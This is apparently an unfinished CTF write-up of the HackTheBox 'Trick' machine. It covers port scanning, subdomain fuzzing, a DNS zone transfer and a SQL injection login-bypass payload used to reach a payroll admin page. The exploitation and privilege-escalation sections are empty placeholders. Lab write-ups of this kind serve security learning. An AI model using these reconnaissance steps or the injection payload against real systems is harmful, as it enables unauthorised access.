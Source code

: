 # Trick (Easy)

<figure><img src="../../../.gitbook/assets/Trick.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61ff293b36bd9dacfbde1f56884cae2d (RSA)
|   256 9ecdf2406196ea21a6ce2602af759a78 (ECDSA)
|_  256 7293f91158de34ad12b54b4a7364b970 (ED25519)
25/tcp    open     smtp?
|_smtp-commands: Couldn't establish connection on port 25
53/tcp    open     domain         ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp    open     http           nginx 1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
99/tcp    filtered metagram
100/tcp   filtered newacct
587/tcp   filtered submission
720/tcp   filtered unknown
765/tcp   filtered webster
992/tcp   filtered telnets
993/tcp   filtered imaps
1025/tcp  filtered NFS-or-IIS
1030/tcp  filtered iad1
1094/tcp  filtered rootd
1100/tcp  filtered mctp
1666/tcp  filtered netview-aix-6
2607/tcp  filtered connection
3367/tcp  filtered satvid-datalnk
4446/tcp  filtered n1-fwp
5101/tcp  filtered admdog
6106/tcp  filtered isdninfo
8652/tcp  filtered unknown
9595/tcp  filtered pds
25735/tcp filtered unknown
61532/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
PORT      STATE         SERVICE
53/udp    open          domain
```

Notes:

* 22 is open, meaning, a possible entry point
* 25 SMTP is open -- Not tons of experience here, let's leave enumerating this for last
* 53 is open -- let's attempt zone transfer
* 80 is open -- let's run web enumeration in the background
  * Added trick.htb to /etc/host

## Enumeration

### Port 80 - HTTP (nginx 1.14.2)

#### Visual Inspection

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

#### ffuf Subdomain Enumeration

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.trick.htb" -u http://trick.htb -fs 5480

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://trick.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________

:: Progress: [151265/151265] :: Job [1/1] :: 1129 req/sec :: Duration: [0:02:17] :: Errors: 0 ::
```

* No results

#### Dirsearch Directory Bruteforce

```
direarch -u http://trick.htb

Target: http://trick.htb/

[14:25:19] Starting: 
[14:25:19] 301 -  185B  - /js  ->  http://trick.htb/js/
[14:25:29] 301 -  185B  - /assets  ->  http://trick.htb/assets/
[14:25:29] 403 -  571B  - /assets/
[14:25:32] 301 -  185B  - /css  ->  http://trick.htb/css/
[14:25:35] 200 -    5KB - /index.html
[14:25:36] 403 -  571B  - /js/
```

* No useful information

#### Web Server Fingerprinting

{% code overflow="wrap" %}
```
whatweb trick.htb
http://trick.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.14.2], IP[10.129.227.180], Script, Title[Coming Soon - Start Bootstrap Theme], nginx[1.14.2]

```
{% endcode %}

* No useful information

### Port 53 - DNS

#### DNS Zone Transfer

<pre><code>dig axfr trick.htb @10.129.227.180

; &#x3C;&#x3C;>> DiG 9.18.12-1-Debian &#x3C;&#x3C;>> axfr trick.htb @10.129.227.180
;; global options: +cmd
trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.		604800	IN	NS	trick.htb.
trick.htb.		604800	IN	A	127.0.0.1
trick.htb.		604800	IN	AAAA	::1
<strong>preprod-payroll.trick.htb. 604800 IN	CNAME	trick.htb.
</strong>trick.htb.		604800	IN	SOA	trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 36 msec
;; SERVER: 10.129.227.180#53(10.129.227.180) (TCP)
;; WHEN: Tue Apr 18 14:34:22 EDT 2023
;; XFR size: 6 records (messages 1, bytes 231)
</code></pre>

* <mark style="color:yellow;">We find 3 confirmed subdomains</mark>

```
trick.htb
preprod-payroll.trick.htb
root.trick.htb
```

* Be sure to add these to /etc/hosts
* We now need to conduct enumeration on these new endpoints since our attack surface has increased

### Additional Port 80 Enumeration

#### preprod-payroll.trick.htb:

#### Visual Inspection

<figure><img src="../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We are able to perform a SQLi authentication bypass using a classic SQLi payload in both fields:</mark>

```
1'or 1=1-- -
```

* We now have access to the administrator's page

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### Name of the technique

This is the exploit

## Privilege Escalation

### Local enumeration

### PrivEsc vector

## Proofs

